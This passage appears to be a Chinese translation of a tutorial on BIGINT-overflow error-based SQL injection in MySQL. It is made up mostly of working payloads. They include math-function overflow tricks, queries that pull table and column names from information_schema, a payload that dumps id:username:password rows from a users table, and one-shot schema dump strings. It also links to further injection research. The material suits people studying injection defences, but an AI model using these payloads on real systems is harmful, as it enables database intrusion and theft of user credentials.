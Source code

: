     mysql> select username, password from users where id='1' or !(select*from(select user())x)-~0;
    ERROR 1690 (22003): BIGINT value is out of range in '((not((select 'root@localhost' from dual))) -
    ~(0))'  
    
使用这种基于BIGINT类型溢出错误的注入方式，我们可以使用几乎所有的MySQL数学函数。就像下面这样  

    select !atan((select*from(select user())a))-~0;
    select !ceil((select*from(select user())a))-~0;
    select !floor((select*from(select user())a))-~0;  
    
我已经测试过下面这些了，你还可以找到更多。  

    HEX
    FLOOR
    CEIL
    RAND
    CEILING
    TRUNCATE
    TAN
    SQRT
    ROUND
    SIGN  
    
##提取数据  
提取数据的方法和其他注入一样，简单地说一下。  
####Getting table names:  

    !(select*from(select table_name from information_schema.tables where
    table_schema=database() limit 0,1)x)-~0;  
    
####Getting column names:  

    select !(select*from(select column_name from information_schema.columns where
    table_name='users' limit 0,1)x)-~0;  
    
####Retrieving Data:  

    !(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;

##Dump in One Shot  
我们能够一次性dump所有数据库、列和表吗？答案是肯定的。但是，当我们试图从所有数据库中dump表和列时，我们只能得到较少的结果，因为我们是通过错误信息来获取数据的。不过从当前数据库中dump数据时，我们可以获得最多27个结果。下面举例说明。  

    !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x)-~0  
    
    (select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns
    where table_schema=database()and@:=concat(@,0xa,table_name,0x3a3a,column_name)),@))x)a)  
    
    (select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)    
    
我们可以获取的结果数量被限制了，最多27个。假设，我们在一个数据库中创建了一个31列的表。只能看到27个结果会被看到，其他4个表和用户表的其他列都无法返回。  

##在insert语句中注入  
在插入语句中我们可以像这样注入。不过payload有可能插入到引号中，这依赖于查询语句。你可以看看我以前的研究。  
[https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements/](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements/)  
[http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf](http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf)  
